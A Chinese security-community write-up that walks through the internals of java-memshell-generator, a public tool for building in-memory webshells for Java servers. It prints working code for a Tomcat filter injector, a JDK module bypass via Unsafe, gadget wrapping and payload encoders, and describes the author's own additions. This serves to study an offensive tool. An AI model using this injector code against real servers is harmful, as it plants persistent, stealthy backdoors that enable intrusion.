


# java-memshell-generator工具分析优化-先知社区

> **来源**: https://xz.aliyun.com/news/17086  
> **文章ID**: 17086

---

## Project Introduction

目前该项目已有1.8k stars

官网介绍：

* 支持以下框架、组件、内存马类型、输出格式：

|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| **中间件** | **框架** | **工具 (测试版本)** | **内存马类型** | **输出格式** | **辅助模块** |
| Tomcat | SpringMVC | [AntSword](https://github.com/AntSwordProject/antSword)  (2.1.15) | Listener | BASE64 | 专项漏洞封装 |
| Resin | SpringWebFlux | [Behinder](https://github.com/rebeyond/Behinder)  (4.0.7) | Filter | BCEL | 表达式语句封装 |
| WebLogic |  | [Godzilla](https://github.com/BeichenDream/Godzilla)  (4.0.1) | Interceptor | BIGINTEGER |  |
| Jetty |  | [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)  (5.1.0) | HandlerMethod | CLASS |  |
| WebSphere |  | [Suo5](https://github.com/zema1/suo5)  (0.9.0) | TomcatValve | JAR |  |
| Undertow |  | Custom |  | JAR\_AGENT |  |
| GlassFish |  |  |  | JS |  |
| Apusic（金蝶） |  |  |  | JSP |  |
| BES（宝兰德） |  |  |  |  |  |
| InforSuite（中创） |  |  |  |  |  |
| TongWeb（东方通） |  |  |  |  |  |

项目编译：

mvn package assembly:single编译成功后，会在release目录下 生成如下jar包

## Framework Introduction

项目代码整体目录如下

```
jmg-all
jmg-gui 
jmg-cli
jmg-sdk 
jmg-core      
jmg-behinder   
jmg-godzilla   
jmg-neoregeorg 
jmg-suo5       
jmg-antsword    
jmg-custom     

jmg-extender   
jmg-woodpecker
```

使用的流程图大致如下：

* jmg-extender 和 jmg-woodpecker 目前处于尚未整合阶段

* jmg-entender ：拓展，通过DFSEecho、DNSLog，HTTPLog，Sleep实现中间件/框架探测。
* jmg-woodpecker：应该是最原始的jmg-cli，现已经废弃使用

* jmg-sdk: 作为接口，整合冰蝎、哥斯拉等工具的shell Generator。
* jmg-core: 作为核心代码内核

* 具备 各种应用对应组件 的注入器生成模板
* 项目整体配置文件config配置
* 内存马 bypass、格式化输出等工具类编写

* jmg-cli 和 jmg-gui

* 主要实现解析参数等逻辑，实现generate 得到payload

* jmg-behinderjmg-godzillajmg-neoregeorgjmg-suo5jmg-antswordjmg-custom

* 作为工具类：copy这些工具实现内存马的相关代码，并将生成的内存马payload类字节流化
* 正常支持生成监听器类型、过滤器、拦截器类型等内存马

### Shell Generator

主要查看jmg.sdk.util.ShellGenerator#makeShell 方法

根据传入的ToolType，分别构造不同类型的shellGenerator最后执行对应makeShell方法，获取对应工具、服务类型的内存马

```
public void makeShell(AbstractConfig config) throws Exception {  
    switch (config.getToolType()) {  
        case Constants.TOOL_ANTSWORD:  
            shellGenerator = new AntSwordGenerator();  
            break;  
        case Constants.TOOL_BEHINDER:  
            shellGenerator = new BehinderGenerator();  
            break;  
        case Constants.TOOL_GODZILLA:  
            shellGenerator = new GodzillaGenerator();  
            break;  
        case Constants.TOOL_SUO5:  
            shellGenerator = new Suo5Generator();  
            break;  
        case Constants.TOOL_NEOREGEORG:  
            shellGenerator = new NeoreGeorgGenerator();  
            break;  
        case Constants.TOOL_CUSTOM:  
            shellGenerator = new CustomGenerator();  
            break;  
        default:  
            throw new IllegalArgumentException("Unsupported tool type: " + config.getToolType());  
    }  
    shellGenerator.makeShell(config);  
}
```

这些不同工具的shellGenrator均继承自jmg.core.generator.IShellGenerator接口

* initShell 方法主要处理shell的相关配置信息情况
* makeShell方法即为 获取内存马对应种类，调用modifyShell方法制作对应的 内存马字节流
* modifyShell 方法通过javassit制作内存马字节流

```
public interface IShellGenerator {  
    ClassPool pool = ClassPool.getDefault();  
  
    void initShell(AbstractConfig config);  
  
    byte[] makeShell(AbstractConfig config) throws Exception;  
  
    byte[] modifyShell(String className, AbstractConfig config);  
}
```

#### Behinder

位于jmg-behinder模块

##### initShell()

初始化pass，如无参数传入，赋值为随机六位的字符串

```
@Override  
public void initShell(AbstractConfig config) {  
    if (config.getPass() == null) config.setPass(CommonUtil.genRandomLengthString(6));  
}
```

##### makeShell()

通过目录下jmg.behinder.util.ShellUtil类下的方法获取对应的shellClassName

```
// 制作shell  
@Override  
public byte[] makeShell(AbstractConfig config) throws Exception {  
    initShell(config);  
    String shellName = ShellUtil.getShellName(config.getToolType(), config.getShellType());  
    String shellClassName = ShellUtil.getShellClassName(shellName);  
    // 根据传入的 toolType + ShellType 生成对应的内存马的字节流  
    byte[] bytes = modifyShell(shellClassName, config);  
  
    // 在配置文件中加入字节流、 字节流长度、压缩后的字节流  
    config.setShellBytes(bytes);  
    config.setShellBytesLength(bytes.length);  
    config.setShellGzipBase64String(CommonUtil.encodeBase64(CommonUtil.gzipCompress(bytes)));  
    return bytes;  
}
```

根据toolType和shellType获取对应内存马类路径的相关hashMap表

```
toolMap  
{  
    Behinder={        
    Listener=BehinderListener,        
    Filter=BehinderFilter,        
    Valve=BehinderValve,        
    JakartaListener=BehinderJakartaListener,       
    JakartaFilter=BehinderJakartaFilter,       
    Interceptor=BehinderInterceptor  
  }
}  
  
SHELL_CLASSNAME_MAP  {   

  BehinderListener=jmg.behinder.memshell.BehinderListener,   
  BehinderFilter=jmg.behinder.memshell.BehinderFilter,   
  BehinderValve=jmg.behinder.memshell.BehinderValve,   
  BehinderJakartaListener=jmg.behinder.memshell.BehinderJakartaListener, BehinderJakartaFilter=jmg.behinder.memshell.BehinderJakartaFilter,    BehinderInterceptor=jmg.behinder.memshell.BehinderInterceptor   
}
```

之后获取诸如 jmg.behinder.memshell.BehinderInterceptor的内存马类包路径，通过modifyShell方法生成内存马字节码。最后将以下数据 保存到config中

* 内存马字节流
* 内存马字节流长度
* Base64形式的内存马字节流

##### modifyShell()

根据传入的shellClassName 制作对应的内存马字节流，并创建相关鉴权字段

* 首先通过pool.getCtClass(className)创建相关内存马的 class
* 之后添加字段pass,headerName，headerValue作为内存马流量通信阶段鉴权
* 在之后根据传入的shell类型，添加新传入的方法

```
@Override  
public byte[] modifyShell(String className, AbstractConfig config) {  
    byte[] bytes = new byte[0];  
    try {  
        pool.insertClassPath(new ClassClassPath(BehinderGenerator.class));  
        CtClass ctClass = pool.getCtClass(className);  
        ctClass.getClassFile().setVersionToJava5();  
        JavassistUtil.addFieldIfNotNull(ctClass, "pass", CommonUtil.getMd5(config.getPass()).substring(0, 16));  
        JavassistUtil.addFieldIfNotNull(ctClass, "headerName", config.getHeaderName());  
        JavassistUtil.addFieldIfNotNull(ctClass, "headerValue", config.getHeaderValue());  
        JavassistUtil.setNameIfNotNull(ctClass, config.getShellClassName());  
        if (config.getShellType().equals(Constants.SHELL_LISTENER)) {  
            String methodBody = ResponseUtil.getMethodBody(config.getServerType());  
            JavassistUtil.addMethod(ctClass, "getResponseFromRequest", methodBody);  
        }  
        if (config.getShellType().equals(Constants.SHELL_JAKARTA_LISTENER)) {  
            String methodBody = ResponseUtil.getMethodBody(config.getServerType());  
            methodBody = methodBody.replace("javax.servlet.", "jakarta.servlet.");  
            JavassistUtil.addMethod(ctClass, "getResponseFromRequest", methodBody);  
        }  
        JavassistUtil.removeSourceFileAttribute(ctClass);  
        bytes = ctClass.toBytecode();  
        ctClass.detach();  
    } catch (Exception e) {  
        e.printStackTrace();  
        throw new RuntimeException(e);  
    }  
    return bytes;  
}
```

#### antSword

位于jmg-antsword模块

框架结构逻辑类似冰蝎

#### suo5

位于jmg-suo5模块

框架结构逻辑类似冰蝎

#### neregeorg

位于jmg-neregeorg模块

框架结构逻辑类似冰蝎

#### custom

位于jmg-custom模块

框架结构逻辑类似冰蝎

### Injector Generator

在jmg.core.generator.InjectorGenerator#makeInjector方法中

```
public byte[]  makeInjector(AbstractConfig config) throws Exception {  
   
    String injectorName = InjectorUtil.getInjectorName(config.getServerType(), config.getShellType());  
    String injectorClassName = InjectorUtil.getInjectorClassName(injectorName);  
  
  
    // 此时injectorClassName 为对应类的包路径，在对应的generateImpl获取 注入的代码的字节流  
    byte[] bytes = UtilPlus.generate(injectorClassName, config);  
    config.setInjectorBytes(bytes);  
    config.setInjectorBytesLength(bytes.length);  
    return bytes;  
}
```

通过传入ServerType和ShellType两个参数的值，在InjectorUtil方法中通过维护两个HashMap，从而获取对应可供利用的注入器类的名字

```
维护的classMap 结构为Map<String, Map<String, String>> 

{
ServerType: {                   
  "Shelltype: "InjectorClass"  
                   ....                
  },  
"Jboss" : {               
  "Listener":"JBossListenerInjector", 
  "Filter","JBossFilterInjector"               
  },     
"Jetty" : {               
  "Listener":"JettyListenerInjector", 
  "Filter","JettyFilterInjector"               
  },   
}  


NJECTOR_CLASSNAME_MAP 存储的对应InjectorClassName + 对应类的路径  
{       "JBossListenerInjector":jmg.core.template..TomcatListenerInjectorTpl,     "JBossFilterInjector":jmg.core.template.TomcatFilterInjectorTpl,       "JettyListenerInjector":jmg.core.template.JettyListenerInjectorTpl,       "JettyFilterInjector": jmg.core.template.JettyFilterInjectorTpl   
}
```

之后会调用jmg.core.generator.InjectorGenerator.UtilPlus#generate方法，来对注入器的相关具体实现类进行修改、添加字节码、生成注入器字节码等操作。

首先通过javassit修改getBase64String方法 返回的值，为我们传入的内存马字节流的Base64形式，这个在后续注入器反射执行创建内存马会提到。之后就是构造常规的方法，Url路径映射、类名等操作，不再赘述

```
public static byte[] generate(String injectorTplClassName, AbstractConfig config) throws Exception {  
    pool.insertClassPath(new ClassClassPath(InjectorGenerator.class));  
  
    // 制作注入器的 类  
    CtClass ctClass = pool.getCtClass(injectorTplClassName);  
    ctClass.getClassFile().setVersionToJava5();  
    // 获取对应内存马shell的字节流 转化为base64  
    String base64ShellString = CommonUtil.encodeBase64(CommonUtil.gzipCompress(config.getShellBytes())).replace(System.lineSeparator(), "");  
  
    String urlPattern = config.getUrlPattern();  
    String shellClassName = config.getShellClassName();  
  
  
    // 构造`getBase64String`方法，设置方法为 返回内存马字节流的base64的形式  
    if (base64ShellString != null) {  
        CtMethod getBase64String = ctClass.getDeclaredMethod("getBase64String");  
        String[] parts = splitChunks(base64ShellString.replace(System.lineSeparator(), ""), 40000);  
        StringBuilder result = new StringBuilder();  
        for (int i = 0; i < parts.length; i++) {  
            if (i > 0)  
                result.append("+");  
            result.append("new String("" + parts[i] + "")");  
        }  
  
        getBase64String.setBody(String.format("{return %s;}", result));  
    }  
  
    // 构造getUrlPattern方法  
    if (config.getShellType().equalsIgnoreCase(Constants.SHELL_FILTER) || config.getShellType().equalsIgnoreCase(Constants.SHELL_WF_HANDLERMETHOD)) {  
        CtMethod getUrlPattern = ctClass.getDeclaredMethod("getUrlPattern");  
        getUrlPattern.setBody(String.format("{return "%s";}", urlPattern));  
    }  
  
    // 构造getClassName方法  
    if (shellClassName != null) {  
        CtMethod getUrlPattern = ctClass.getDeclaredMethod("getClassName");  
        getUrlPattern.setBody(String.format("{return "%s";}", shellClassName));  
    }  
  
    // 添加bypass部分  
    if (config.isEnableBypassJDKModule()) {  
        // 添加 bypassJDKModule 方法  
        CtMethod ctMethod = new CtMethod(CtClass.voidType, "bypassJDKModule", new CtClass[0], ctClass);  
        ctMethod.setModifiers(AccessFlag.PUBLIC);  
        ctMethod.setBody(JDKBypassUtil.bypassJDKModuleBody());  
        ctClass.addMethod(ctMethod);  
  
        // 添加 bypassJDKModule 调用  
        CtConstructor constructor = ctClass.getConstructors()[0];  
        constructor.setModifiers(javassist.Modifier.setPublic(constructor.getModifiers()));  
        constructor.insertBeforeBody("bypassJDKModule();");  
    }  
  
    JavassistUtil.setNameIfNotNull(ctClass, config.getInjectorClassName());  
    JavassistUtil.removeSourceFileAttribute(ctClass);  
  
  
    // 判断是否需要 Gadget 进行封装  
    byte[] bytes = new CtClassUtil(config, pool, ctClass).modifyForExploitation();  
    ctClass.detach();  
    return bytes;  
}
```

#### Bypass

书接上文，在generate方法中，如果设置了需要BypassJDKModule

```
// 添加bypass部分  
if (config.isEnableBypassJDKModule()) {  
    // 添加 bypassJDKModule 方法  
    CtMethod ctMethod = new CtMethod(CtClass.voidType, "bypassJDKModule", new CtClass[0], ctClass);  
    ctMethod.setModifiers(AccessFlag.PUBLIC);  
    ctMethod.setBody(JDKBypassUtil.bypassJDKModuleBody());  
    ctClass.addMethod(ctMethod);  
  
    // 添加 bypassJDKModule 调用  
    CtConstructor constructor = ctClass.getConstructors()[0];  
    constructor.setModifiers(javassist.Modifier.setPublic(constructor.getModifiers()));  
    constructor.insertBeforeBody("bypassJDKModule();");  
}
```

首先给注入器类添加方法bypassJDKModule具体的bypass如下

```
public static String bypassJDKModuleBody() throws Exception {  
    return "{try {
" +  
            "            Class unsafeClass = Class.forName("sun.misc.Unsafe");
" +  
            "            java.lang.reflect.Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
" +  
            "            unsafeField.setAccessible(true);
" +  
            "            Object unsafe = unsafeField.get(null);
" +  
            "            java.lang.reflect.Method getModuleM = Class.class.getMethod("getModule", new Class[0]);
" +  
            "            Object module = getModuleM.invoke(Object.class, (Object[]) null);
" +  
            "            java.lang.reflect.Method objectFieldOffsetM = unsafe.getClass().getMethod("objectFieldOffset", new Class[]{java.lang.reflect.Field.class});
" +  
            "            java.lang.reflect.Field moduleF = Class.class.getDeclaredField("module");
" +  
            "            Object offset = objectFieldOffsetM.invoke(unsafe, new Object[]{moduleF});
" +  
            "            java.lang.reflect.Method getAndSetObjectM = unsafe.getClass().getMethod("getAndSetObject", new Class[]{Object.class, long.class, Object.class});
" +  
            "            getAndSetObjectM.invoke(unsafe, new Object[]{this.getClass(), offset, module});
" +  
            "        } catch (Exception ignored) {
" +  
            "        }}";  
}
```

最后修改注入器类的初始化构造方法Constructor，添加执行bypassJDKModule().

#### Gadget

byte[] bytes = new CtClassUtil(config, pool, ctClass).modifyForExploitation();通过调用modifyForExploitation来为对应的注入器类添加相关的接口目前支持添加以下四种Gadget

* com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet
* org.apache.xalan.xsltc.runtime.AbstractTranslet
* Fastjson Groovy loadJar 的利用需要实现 ASTTransformation 接口
* snakeyaml loadJar 的利用需要实现 ScriptEngineFactory 接口

```
public byte[] modifyForExploitation() throws Exception {  
    if (config.getGadgetType() != null) {  
        if (config.getGadgetType().equals(Constants.GADGET_JDK_TRANSLET)) {  
            applyJDKAbstractTranslet();  
        }  
        if (config.getGadgetType().equals(Constants.GADGET_XALAN_TRANSLET)) {  
            applyXALANAbstractTranslet();  
        }  
  
        if (config.getGadgetType().equals(Constants.GADGET_FJ_GROOVY)) {  
            applyFastjsonGroovyASTTransformation();  
        }  
        if (config.getGadgetType().equals(Constants.GADGET_SNAKEYAML)) {  
            applySnakeYamlScriptEngineFactory();  
        }  
    }    return ctClass.toBytecode();  
}
```

这里的Gadget 意思即为，生成上述字节流后，作为字节流利用相关反序列化链的相关Gadget从而实现利用。

#### 模板

模版的实现大同小异，这里以TomcatFilterInjectorTpl模板为例：

##### 注入器类反射初始化

首先该注入器类在被反射初始化的时候，由于存在静态的代码域 会调用注入器的construtor方法

```
static {  
    new TomcatFilterInjectorTpl();  
}  
  
public TomcatFilterInjectorTpl() {  
    try {  
        List<Object> contexts = getContext();  
        for (Object context : contexts) {  
            Object filter = getFilter(context);  
            addFilter(context, filter);  
        }  
    } catch (Exception ignored) {  
  
    }}
```

##### 获取Context

首先调用getContext方法建相应的context通过线程Thread，获取创建过滤器所需要的相关上下文Context。

* 针对不同版本的tomcat都做了相应的优化

```
public List<Object> getContext() throws IllegalAccessException, NoSuchMethodException, InvocationTargetException {  
    List<Object> contexts = new ArrayList<Object>();  
    Thread[] threads = (Thread[]) invokeMethod(Thread.class, "getThreads");  
    Object context = null;  
    try {  
        for (Thread thread : threads) {  
            // 适配 v5/v6/7/8            if (thread.getName().contains("ContainerBackgroundProcessor") && context == null) {  
                HashMap childrenMap = (HashMap) getFV(getFV(getFV(thread, "target"), "this$0"), "children");  
                // 原: map.get("localhost")  
                // 之前没有对 StandardHost 进行遍历，只考虑了 localhost 的情况，如果目标自定义了 host,则会获取不到对应的 context，导致注入失败  
                for (Object key : childrenMap.keySet()) {  
                    HashMap children = (HashMap) getFV(childrenMap.get(key), "children");  
                    // 原: context = children.get("");  
                    // 之前没有对context map进行遍历，只考虑了 ROOT context 存在的情况，如果目标tomcat不存在 ROOT context，则会注入失败  
                    for (Object key1 : children.keySet()) {  
                        context = children.get(key1);  
                        if (context != null && context.getClass().getName().contains("StandardContext"))  
                            contexts.add(context);  
                        // 兼容 spring boot 2.x embedded tomcat                        if (context != null && context.getClass().getName().contains("TomcatEmbeddedContext"))  
                            contexts.add(context);  
                    }  
                }            }            // 适配 tomcat v9            else if (thread.getContextClassLoader() != null && (thread.getContextClassLoader().getClass().toString().contains("ParallelWebappClassLoader") || thread.getContextClassLoader().getClass().toString().contains("TomcatEmbeddedWebappClassLoader"))) {  
                context = getFV(getFV(thread.getContextClassLoader(), "resources"), "context");  
                if (context != null && context.getClass().getName().contains("StandardContext"))  
                    contexts.add(context);  
                if (context != null && context.getClass().getName().contains("TomcatEmbeddedContext"))  
                    contexts.add(context);  
            }  
        }    } catch (Exception e) {  
        throw new RuntimeException(e);  
    }  
    return contexts;  
}
```

##### 获取内存马 实例化类

接着调用getFilter方法

```
private Object getFilter(Object context) {  
  
    Object filter = null;  
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();  
    if (classLoader == null) {  
        classLoader = context.getClass().getClassLoader();  
    }  
    try {  
        filter = classLoader.loadClass(getClassName());  
    } catch (Exception e) {  
        try {  
            byte[] clazzByte = gzipDecompress(decodeBase64(getBase64String()));  
            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);  
            defineClass.setAccessible(true);  
            Class clazz = (Class) defineClass.invoke(classLoader, clazzByte, 0, clazzByte.length);  
            filter = clazz.newInstance();  
        } catch (Throwable tt) {  
        }    }    return filter;  
}
```

通过调取getBase64String()方法返回内存马字节流。之后通过defineClass 方法加载内存马的字节流，生成对应内存马的class文件。最后实例化为filter过滤器

##### 添加内存马到应用服务中

最后调用addFilter方法，适配tomcata的不同版本，定制不同的添加过滤器方法

```
public void addFilter(Object context, Object filter) throws InvocationTargetException, NoSuchMethodException, IllegalAccessException, ClassNotFoundException, InstantiationException {  
    ClassLoader catalinaLoader = getCatalinaLoader();  
    String filterClassName = getClassName();  
    String filterName = getFilterName(filterClassName);  
    Object filterDef;  
    Object filterMap;  
  
    // 防止重复注入  
    try {  
        if (invokeMethod(context, "findFilterDef", new Class[]{String.class}, new Object[]{filterName}) != null) {  
            return;  
        }  
    } catch (Exception ignored) {  
    }  
    try {  
        // tomcat v8/9  
        filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef").newInstance();  
        filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap").newInstance();  
    } catch (Exception e2) {  
        // tomcat v6/7  
        try {  
            filterDef = Class.forName("org.apache.catalina.deploy.FilterDef").newInstance();  
            filterMap = Class.forName("org.apache.catalina.deploy.FilterMap").newInstance();  
        } catch (Exception e) {  
            // tomcat v5  
            filterDef = Class.forName("org.apache.catalina.deploy.FilterDef", true, catalinaLoader).newInstance();  
            filterMap = Class.forName("org.apache.catalina.deploy.FilterMap", true, catalinaLoader).newInstance();  
        }  
    }    try {  
        invokeMethod(filterDef, "setFilterName", new Class[]{String.class}, new Object[]{filterName});  
        invokeMethod(filterDef, "setFilterClass", new Class[]{String.class}, new Object[]{filterClassName});  
        invokeMethod(context, "addFilterDef", new Class[]{filterDef.getClass()}, new Object[]{filterDef});  
        invokeMethod(filterMap, "setFilterName", new Class[]{String.class}, new Object[]{filterName});  
        invokeMethod(filterMap, "setDispatcher", new Class[]{String.class}, new Object[]{"REQUEST"});  
        Constructor<?>[] constructors;  
        try {  
            invokeMethod(filterMap, "addURLPattern", new Class[]{String.class}, new Object[]{getUrlPattern()});  
            constructors = Class.forName("org.apache.catalina.core.ApplicationFilterConfig").getDeclaredConstructors();  
        } catch (Exception e) {  
            // tomcat v5  
            invokeMethod(filterMap, "setURLPattern", new Class[]{String.class}, new Object[]{getUrlPattern()});  
            constructors = Class.forName("org.apache.catalina.core.ApplicationFilterConfig", true, catalinaLoader).getDeclaredConstructors();  
        }  
        try {  
            // v7.0.0 以上  
            invokeMethod(context, "addFilterMapBefore", new Class[]{filterMap.getClass()}, new Object[]{filterMap});  
        } catch (Exception e) {  
            invokeMethod(context, "addFilterMap", new Class[]{filterMap.getClass()}, new Object[]{filterMap});  
        }  
  
        constructors[0].setAccessible(true);  
        Object filterConfig = constructors[0].newInstance(context, filterDef);  
        Map filterConfigs = (Map) getFV(context, "filterConfigs");  
        filterConfigs.put(filterName, filterConfig);  
    } catch (Exception e) {  
        e.printStackTrace();  
    }  
}
```

### Format Output

#### 输出格式

jMGCodeApi主要封装了字节流格式化输出的各个接口

在jmg.core.jMGCodeApi#generate方法中实现针对传入参数输出对应的字节流

```
public byte[] generate() throws Throwable {  
    byte[] clazzBytes;  
  
  
    // 获取内存马  注入字节码  
    if (config.isEnabledExtender()) {  
        clazzBytes = config.getExtenderBytes();  
    } else {  
        clazzBytes = config.getInjectorBytes();  
    }  
    if (clazzBytes == null) {  
        return null;  
    }  
  
    // 将上述得到的字节码  输出格式转化  
    byte[] bytes = null;  
    switch (config.getOutputFormat()) {  
        case Constants.FORMAT_BCEL:  
            bytes = new BCELFormater().transform(clazzBytes, config);  
            break;  
        case Constants.FORMAT_JSP:  
            bytes = new JSPFormater().transform(clazzBytes, config);  
            break;  
        case Constants.FORMAT_JAR:  
            bytes = new JARFormater().transform(clazzBytes, config);  
            break;  
        case Constants.FORMAT_JAR_AGENT:  
            bytes = new JARAgentFormater().transform(clazzBytes, config);  
            break;  
        case Constants.FORMAT_JS:  
            bytes = new JavaScriptFormater().transform(clazzBytes, config);  
            break;  
        case Constants.FORMAT_BASE64:  
            bytes = new BASE64Formater().transform(clazzBytes, config);  
            break;  
        case Constants.FORMAT_BIGINTEGER:  
            bytes = new BigIntegerFormater().transform(clazzBytes, config);  
            break;  
        default:  
            bytes = clazzBytes;  
            break;  
    }  
    return bytes;  
}
```

#### Jexpr 表达式语句封装-优化

该表达式方法在原项目中只在gui模块实现了

我将其转移到到jmg.core.util.JExprUtil类中调用第三方库实现，对字节流表达式的封装执行。

```
public static String[] genExprPayload(AbstractConfig config){  
    byte[] bytes = config.getInjectorBytes();  
    switch (config.getExprEncoder()){  
        case "EL":  
            return new ELExpr().genMemShell(bytes);  
        case "FreeMarker":  
            return new FreeMarkerExpr().genMemShell(bytes);  
        case "OGNL":  
            return new OGNLExpr().genMemShell(bytes);  
        case "SpEL":  
            return new SpELExpr().genMemShell(bytes);  
        case "Velocity":  
            return new VelocityExpr().genMemShell(bytes);  
        case "ScriptEngineManager(JS)":  
            return new ScriptEngineManagerExpr().genMemShell(bytes);  
    }  
    return null;  
}
```

并额外为cli提供了Expr表达式的功能优化效果如下：

### Tool

#### jmg-cli

##### 参数部分

jmg/cli/Console.java#init()方法，会设置五种类型的参数

```
public void init() {  
    System.out.println(String.format("Welcome to jMG %s !", Constants.JMG_VERSION));  
    config = new AbstractConfig() {{  
        // 设置工具类型  
        setToolType(Constants.TOOL_GODZILLA);  
        // 设置中间件 or 框架  
        setServerType(Constants.SERVER_TOMCAT);  
        // 设置内存马类型  
        setShellType(Constants.SHELL_LISTENER);  
        // 设置输出格式为 BASE64        setOutputFormat(Constants.FORMAT_BASE64);  
        // 设置漏洞利用封装，默认不启用  
        setGadgetType(Constants.GADGET_NONE);  
        // 初始化基础配置  
        build();  
    }};  
  
}
```

* ToolType

* Tools: [Godzilla, Behinder, AntSword, Suo5, NeoreGeorg]

* serverType:

* Servers: [Tomcat, SpringMVC, Jetty, Resin, WebLogic, WebSphere, Undertow, GlassFish, JBoss, Tongweb, Apusic, BES, InforSuite]

* `shellTypes:

* Shells: [Listener, Filter, Interceptor]

* formatType:

* Formats: [BASE64, BCEL, BIGINTEGER, CLASS, JAR, JAR\_AGENT, JSP]

##### 命令说明

help 说明：

```
String[][] helpMessages = {  
        {"help", "help message", "帮助信息"},  
        {"list [type]", "list toolTypes/serverTypes/formatTypes/shellTypes", "支持的工具类型/中间件|框架/组件类型/输出格式"},  
        {"use <type> <name>", "choose toolType/serverType/formatType/shellType", "选择工具类型/中间件|框架/组件类型/输出格式"},  
        {"set <key> <value>", "set pass/key/headerName/headerValue/urlPattern/...", "设置密码/密钥/请求头名称/请求头值/请求路径[/*]/..."},  
        {"get <type>", "get <type> or <key>", "查看配置"},  
        {"generate", "generate payload", "生成载荷"},  
        {"info", "connect info", "连接信息"},  
        {"exit", "exit jmg", "退出"}  
};
```

支持list , use,set, get,generate等命令

* list , use,set, get命令均是为了帮助设置内存马生成的相关参数
* generate命令，可以将生成的内存马输出
* ~~此外，可以知道，~~~~cli~~~~版本的目前不支持表达式语句包装。~~ 已实现优化

generate命令所对应方法，不再赘述

```
public static void generate() throws Throwable {  
    // 更新配置  
    config.build();  
    jMGenerator generator = new jMGenerator(config);  
    generator.genPayload();  
    generator.printPayload();  
}
```

#### jmg-gui

在jmg.gui.form.jMGForm类中，通过idea自身带的图形化界面相关组件，实现图形化，监控图形化界面中各个Label的赋值，从而实现对配置文件config各个参数的赋值。

参数赋值部分不再赘述，主要查看generate button 按钮之后的动作同样是生成内存马字节流、注入器字节流。最后ResultUtil.resultOutput()方法实现输出可用shell的相关信息

```
// 在该方法中，根据传入的参数进行 generate Memory Shell
generateButton.addActionListener(new ActionListener() {  
        @Override  
        public void actionPerformed(ActionEvent e) {  
            TextPaneUtil.initTextPane(textPane);  
            TextPaneUtil.startPrintln(toolType + " " + serverType + " " + shellType + " " + formatType + "
");  
            try {  
  
                initConfig(config);   
                // ShellGenerator 理解为 注入内存马的Shell 需要设置的参数： eg: key, password, request header key , request header value ,url 等  
        // 设置 shellByte
        snew ShellGeneratorUtil().makeShell(config);  
  
  
        // Injector 理解为注入内存马需要的注入器  
        // 会设置 InjectorBytes
        new InjectorGenerator().makeInjector(config);
        
                ResultUtil.resultOutput(config);  
                ComponentUtil.restoreScrollPosition(textScrollPane);  
                resetConfig(config);  
            } catch (Throwable ex) {  
                resetConfig(config);  
                TextPaneUtil.errorPrintln(CommonUtil.getThrowableStackTrace(ex));  
            }  
        }    });  
  
    textPane.setComponentPopupMenu(MenuUtil.createPopupMenu(frame, textPane));  
  
  
}
```

## 总结

更新：

* 为cli模块增添了表达式语句封装

todo:

* 更新主流针对Servlet类型内存马生成
* 整合jmg-extender 模块到工具中
* 更新针对其他框架、种类的内存马方案，支持更多custom自定义化内存马生成
* 缺乏反序列化链 Gadget 与 (注入器/neicunma) 的结合

